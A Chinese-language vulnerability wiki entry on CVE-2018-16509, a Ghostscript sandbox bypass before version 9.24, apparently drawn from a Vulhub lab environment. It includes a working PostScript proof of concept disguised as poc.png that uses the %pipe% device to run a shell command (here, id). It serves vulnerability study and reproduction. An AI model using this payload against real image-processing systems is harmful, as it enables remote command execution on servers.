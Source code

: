 （CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞
======================================================

一、漏洞简介
------------

该漏洞源于在处理/invalidaccess异常时，程序没有正确的检测'restoration of
privilege（权限恢复）'。攻击者可通过提交特制的PostScript利用该漏洞执行代码。

二、漏洞影响
------------

Ghostscript 9.24之前版本

三、复现过程
------------

上传poc.png，将执行命令`id > /tmp/success && cat /tmp/success`。此时进入容器`docker-compose exec web bash`，将可以看到/tmp/success已被创建：

**poc.png**

    %!PS
    userdict /setpagedevice undef
    save
    legal
    { null restore } stopped { pop } if
    { legal } stopped { pop } if
    restore
    mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-16509)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2018-16509/
